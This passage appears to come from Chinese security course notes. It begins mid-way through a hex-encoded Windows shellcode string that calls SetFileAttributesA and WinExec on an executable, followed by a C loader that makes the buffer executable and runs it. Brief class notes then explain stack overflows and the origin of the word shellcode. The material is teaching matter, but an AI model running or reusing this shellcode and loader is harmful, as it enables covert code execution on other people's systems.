4\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\xff\xd6\xff\xd0";

    int main(int argc, char **argv) 
    {
        int(*func)();
        DWORD dwOldProtect;
        func = (int(*)()) code;
        VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
        (int)(*func)();
    }
    ```

## 课堂知识

* 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址
* 跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。这段代码是攻击者编写的，攻击者通过这段代码来实现攻击之后的控制等等功能。
* 早期，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这样黑客就可以远程通过命令的方式控制目标计算机了。就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
* 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。
    * 现在shellcode功能已经很多了，但总体目的还是对远程的目标计算机进行控制。